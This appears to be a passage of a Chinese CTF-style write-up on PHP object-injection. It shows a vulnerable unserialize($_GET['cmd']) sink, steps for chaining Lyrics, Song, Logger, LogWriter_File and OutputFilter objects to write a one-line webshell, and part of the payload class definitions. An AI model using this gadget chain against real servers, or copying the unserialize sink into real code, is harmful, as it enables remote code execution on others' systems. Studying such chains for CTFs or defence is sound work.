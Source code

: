 ```php
      $id= $res->fetch_row(); $ids[]= intval($id[0]);
    }
    echo var_dump($ids);
    return $ids; 
  }
  function __destruct() {
    $this->conn->close();
    $this->conn = NULL;
  }
};
unserialize($_GET['cmd']);
```



- 我们新建一个Lyrics对象
- 将它的song属性为Song对象
- Song对象的log属性填充成Logger对象
- 再把logger对象的logwriter的属性填充成LogWriter_File对象
- LogWriter_File的$format属性设置成OutputFilter
- OutputFilter里面的filter方法用preg_match写入一句话。



**payload**

```php
<?php
//require_once 'index.php';

class OutputFilter {
    protected $matchPattern;
    protected $replacement;
    function __construct($pattern, $repl) {
        $this->matchPattern = $pattern;
        $this->replacement = $repl;
    }
};


class LogWriter_File {
    protected $filename;
    protected $format;
    function __construct($filename, $format) {
        $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
        $this->format = $format;
    }
};

class Logger {
    protected $logwriter;//这里装入LogWriter_File对象
    function __construct($writer) {
        $this->logwriter = $writer;
    }
};


class LogFileFormat {
    protected $filters;
    protected $endl;
    function __construct($filters, $endl) {
        $this->filters = $filters;
        $this->endl = $endl;
    }
};

```